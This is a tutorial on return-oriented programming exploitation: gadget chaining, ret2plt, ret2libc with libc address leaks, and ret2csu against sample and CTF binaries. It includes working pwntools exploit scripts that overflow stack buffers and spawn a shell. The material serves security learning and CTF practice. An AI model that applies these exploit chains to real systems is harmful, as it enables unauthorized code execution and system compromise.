

# What's ROP?
When we face the challenge of NX, we need to change our attacking way. Use gadget existing in memory to build up your shellcode again, and this is ROP! The gadget of ROP usually ends with **ret**, because ret can pop rip and help us control it!!  
Fowllowing are the condition we need to fullfill before we start ROP:  
1. Overwrite return address  
2. We can find gadgets, if PIE is open, we also should leak the address of gadgets!    
  
## How to find gadgets?
`pop rax; ret` would be better than `mov rax, <val>` because the there would no the piece of value you want in binary.  

Here comes an important concept when you try to find gadgets by hands:  
```
400732:  41 5f       pop r15
400734:  c3          ret
```
You can try to return to `400733`. CPU would parse it `5f c3` as `pop rdi; ret;` :)

## ROP (`/file/rop/`)
```c
...
int main(){

    init();

    puts( "Say hello to stack :D" );

    char buf[0x30];
    gets( buf );

    return 0;
}
```
This is a sample helping to figure out how ROP works. Check the makefile in folder, we can see that pie, canary are disabled. Also we should be able to find a lot of gadgets because it is static-linked.  
This code would open a buffer of 48 bytes to receive our input. We cannot use shellcode to launch attack because NX is enabled. How do I hijack the control flow to pop a shell?  
First step is to overwrite the return address of main function and go to gadget one:  
```
------------  <---- rsp
|          |
|          |  <-- 0x30 bytes
|          |
------------
| saved rbp|  <-- 0x8 bytes
------------
| ret addr |
------------
```
Therefore, we would use `0x38` bytes of junk data to overflow and overwrite return address then. Here, we know we can hijack the control flow. But what should our control flow be like? To pop up a shell, our ideal goal is to call `execve('/bin/sh', 0, 0)`. Take a look at [syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), `sys_execve` needs rax to be 59, rdi to be address of `/bin/sh`, then both rsi and rdx to be 0.  
To find the gadgets, here comes a popular tools: [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).  
I would not describe the whole process of finding gadgets, it costs a long time. I would directly introduce the control flow hijacked by my rop chain:  
```
-----------
pop rdi; ret;   <-- ret addr of main function (gadget 1)
-----------
    bss
-----------
pop rsi; ret;   <-- ret addr of gadget 1 (gadget 2)
-----------
 "/bin/sh\0"
-----------
mov qword ptr [rdi], rsi; ret;  <-- ret addr of gadget 2 (gadget 3)
-----------
pop rdx; pop rsi; ret;   <-- ret addr of gadget 3 (gadget 4)
-----------
     0
     0
-----------
pop rax; ret;    <-- ret addr of gadget 4 (gadget 5)
-----------
     59
-----------
  syscall     <-- ret addr of gadget 5 (gadget 6)
```
Here we use six gadgets to make the syscall of execve. Let me explain gadgets one by one.  
1. Gadget 1 is to put the address of string(`/bin/sh`) into rdi. We can find a writeable place in virtual memory (It's possible to ruin program), here I choose bss section. When `ret` is executed, stuff pointed by rsp would be poped into rip. Therefore, rip would point to gadget 1 and execute it. At the same time, rsp points to bss. When gadget 1 try to pop rdi, the bss would be put into rdi. In final step, stack would pop again with `ret` executed, so rip point to gadget 2.  
2. Gadget 2 is to put string(`/bin/sh`) into rsi because we plan to put it into the bss in further step. Same, pop rsi then string would be put into rsi. In final step, rip point to gadget 3.  
3. Gadget 3 is to put value of rsi which is `/bin/sh` into the address referred by rdi, which is bss. In final step, rip point to gadget 4.  
4. Gadget 4 is to give 0 to both rdx and rsi. In final step, rip point to gadget 5.  
5. Gadget 5 is to give 59 to rax, then rip point to gadget 6.  
6. Gadget 6, final gadget, make syscall.  

Exploit: (`/file/rop/exp.py` run with python2)

## ret2plt (`/file/ret2plt/`)
This binary has less gadgets because it uses dynamic linking. However, we won't need to build ropchain piece by piece this time. There is plt function which can do what we want to do; therefore, this time we would ret2plt. To call `system('sh')`, I would like to call `gets@plt` to input the string(`sh`), then call `system@plt`. This time, exploit is much shorter :)
```py
...
pop_rdi = 0x400733
bss = 0x6010a0
getsplt = 0x400530
systemplt = 0x400520

p = flat('a' * 0x38, pop_rdi, bss, getsplt, pop_rdi, bss, systemplt)

r.sendlineafter(':D', p)
r.interactive()
```
1. `gets()` would accept bss from rdi as its first parameter. Here, exploit would pop out a shell, then we can input our string `sh`, `gets` would help us to put the string to bss.
2. `system()` would accept bss from rdi as its first parameter. system locates to bss and find `sh` in it.

> ASLR is already opened here. But why we still can find the address of plt easily? Because ASLR won't randomize the base address of text section, the targets of ASLR are limited to stack, heap, and libc. If you want to randomize the text section, you need to open PIE.

## ret2libc(`/file/ret2libc/`)
In `ret2plt`, we have existing gadgets in elf. However, we will not always be so lucky. If we don't have existing gadgets in elf, we can try to find them in libc.  
How to solve the challenge of randomized address? In `ret2plt`, ASLR won't randomize the base address of ELF itself, so we can find the address directly by objdump. But, the base address of libc would change for each time, which means that the address of gadgets in libc will also change. Therefore, we need to leak them.
```py
r = process('./ret2libc')
elf = ELF('./ret2libc')
libc = ELF('./xxx.so')

puts_plt = elf.plt['puts']   # give us the address of puts@plt
libc_start_main_got = elf.got['__libc_start_main']    # give us the address of libc_start_main@got
main = elf.symbols['main']    # give us the address of main function

# Now, lets try to leak the runtime address of __libc_start_main
# how do we send our payload again after we leak the address: back to main again
p = flat('a'*padding, pop_rdi_ret, libc_start_main_got, puts_plt, main)
r.sendline(p)

# receive the output of address
libc_start_main_address = u64(r.recv().ljust(8, '\x00'))
libc_start_main_offset = libc.sym.__libc_start_main

# assign the base address of libc
libc.address = libc_start_main_address - libc_start_main_offset

system_address = libc.sym.system

p = flat('a'*padding, pop_rdi_ret, libc.search('/bin/sh').next(), ret, system_address)
r.sendline(p)
```
Here comes several useful tricks with pwntools. `ELF()` would load the binary and give us some information so that we don't need to search them manually. In first payload, we use `puts@plt` to help us print out the runtime address of `libc_start_main`, which was saved in the got table after begin loaded. Here comes another important concept, ASLR randomizes the base address; however, the offset between runtime address and base address is fixed.  
```
runtime address of A - offset of A = runtime base address of lib
=> runtime base address + offset of B = runtime address of B
=> runtime base address + offset of C = runtime address of C
```
To get the offset automatically, we can search the symbol by `readelf -S` directly, which can also be got with `elf.sym.xx`. Another trick is if we assign the base address to `libc.address`. Then symbol we get with `elf.sym.xx` in the future would also be the runtime address, it is convenient, isn't it? In the second payload, we just need to hijack the main function to the leaked `system()` in libc, we can also find the runtime address of `/bin/sh` with `search()` function because I have assigned the base address.  
One more important thing needed to care about is `MOVAPS` issue in `system` function. It's very annoying when your exploit seems correct with show error of `Got EOF while reading in interactive`. Generally, it is due to the reason for **stack alignment**. Specific version of glibc in linux-x86_64 would require stack to be aligned to 16 bytes, which means the address of `$rsp` should be multiple of `16` bytes. It's also easy to align the stack again, push one more `ret` gadgets or jump to the place skipping `push rbp` would work again!  

* [The MOVAPS issue](https://ropemporium.com/guide.html#Common%20pitfalls)
* [Someone write a tools to automatically extract offset based on leaked address](https://github.com/lieanu/LibcSearcher)

> When you try to use makefile to compile the example file, remember it is dynamic linking. To find the libc linked to the binary, you need to use ldd to check the path of libc and specify in your exploit!

# ret2csu(`/file/ret2csu/`)
The source code and binary can be found in [ctf-wiki/hitcon-level5](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2__libc_csu_init/hitcon-level5). In this challenge, we will learn that `__libc_csu_init` has gadgets that can help us to control registers not limited to `rdi`, `rsi`, `rdx`. How do we hijack the control flow with these gadgets? We can separate it to two chains in this function:  
```asm
# foot step 1
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616                 add     rsp, 8
# foot step 2
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
```
In our ROP chain, we can return to `foot step 2` first. Here we can control the contents of `rbx`, `rbp`, `r12`, `r13`, `r14`, `r15`, and also overwrite the return address with `foot step 1`. Then, we can indirectly control the contents of `rdx`, `rsi`, and `edi`(which is the lower 32 bits of rdi). `call qword ptr` gadget can help us call a function we want, so we will overwrite `r12` with the function address we want. To avoid triggering `jnz` instruction, we would make it simple to make `rbx = 0` and `rbp = 1`. Then the control flow will continue on foot step 2 again. Remember to fill in some junk data here (from `0x40061A` to `0x400622`), then you can overwrite the return address again!  
Exploit can be found in `/file/ret2csu`, and the first version of exploit failed:
```py
from pwn import *

context.arch = "amd64"

r = process("./level5")
elf = ELF("./level5")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

read_got = elf.got['read']
write_got = elf.got['write']
bss_base = elf.bss()
main_addr = elf.sym.main

csu_gadget1 = 0x400600
csu_gedget2 = 0x40061A

def ret2csu(rbx, rbp, r12, r13, r14, r15, backto):
    # we will use two parts csu gadget
    p = flat('a' * 0x88,
            csu_gedget2,
            rbx, rbp, r12, r13, r14, r15,
            csu_gadget1,
            'a' * 0x38,    # junk data
            backto)
    r.sendline(p)
    sleep(1)

r.recvline()

# call qword ptr [r12 + rbx*8]
# overwrite r12 with the address of write_got
ret2csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(r.recv(8))
write_off = libc.sym.write
libc.address = write_addr - write_off
success( 'libc base address => %s' % hex(libc.address) )
success( 'system address => %s' % hex(libc.sym.system) )

bin_sh = libc.search('/bin/sh').next()
success( 'binsh address => %s' % hex(bin_sh) )

r.recvline()

ret2csu(0, 1, libc.sym.system, 0, 0, bin_sh, main_addr)

r.interactive()
```
The reason for the failure here is the incorrect address of string `/bin/sh`. Take a look at following debug process,  
  
The gadget which is `mov edi, r15d` can only help us control lower 32 bits of rdi. Therefore, I turn to write the string into bss and call `execve()`. The final working exploit can be found in `/file/ret2csu/exp.py`.
```py
# read(0, bss_base, 16)
ret2csu(0, 1, read_got, 16, bss_base, 0, main_addr)
r.send(p64(libc.sym.execve) + '/bin/sh\x00')

r.recvline()

# system(/bin/sh)
ret2csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
```
`bss_base` shows the address of `execve` while `bss_base + 8` is the address of `/bin/sh`.  

We can find that the length of the payload is very long. How if we are not able to give such a long payload? We can try to excavate some other gadgets in `_init`, `_start`, `call_gmon_start`, `deregister_tm_clones`, `register_tm_clones`, `__do_global_dtors_aux`, `frame_dummy`, `__libc_csi_fini` or `_fini`, These are some other functions added by compiler.  

Also do not try finding gadgets only based on the start address in the assembly code. Assume that the shown starting address is `0x400621`, then the instruction might be totally different from what you see before if you try `x/i 0x400622`.

## Practice  
Kinds of ROP | practice link  
------------ | --------------  
Would you like to try simple rop first? | [NTU 2017 ROP](https://github.com/shinmao/CTF-writeups/tree/master/NTU-CTF-2017/simple_rop)